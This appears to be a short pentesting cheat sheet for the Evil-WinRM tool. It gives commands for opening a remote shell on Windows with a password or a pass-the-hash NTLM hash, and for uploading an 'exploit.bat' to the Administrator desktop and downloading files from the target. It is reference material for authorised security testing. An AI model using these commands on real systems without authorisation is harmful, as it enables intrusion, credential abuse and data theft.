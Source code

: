 ```yaml
---
title: Evil-WinRM
desc: Windows Remote Management shell for pentesting. It's also used for Pass The Hash.
tags: [ActiveDirectory, PassTheHash, Windows, WinRM]
alts: [CrackMapExec]
website: https://github.com/Hackplayers/evil-winrm
render_with_liquid: false
---
```


## Connect

```sh
evil-winrm -i 10.0.0.1 -P 5985 -u username -p password

# Pass The Hash
evil-winrm -i 10.0.0.1 -P 5985 -u username -H 0e0363213e37b94221497260b0bcb4fc
```

<br />

## Useful Commands After Connecting...

```powershell
# Upload a local file to Windows machine
PS> upload ./example.bat c:\\Users\Administrator\Desktop\exploit.bat

# Download a file to Local
PS> download c:\\Users\Administrator\Desktop\example.txt ./example.txt
```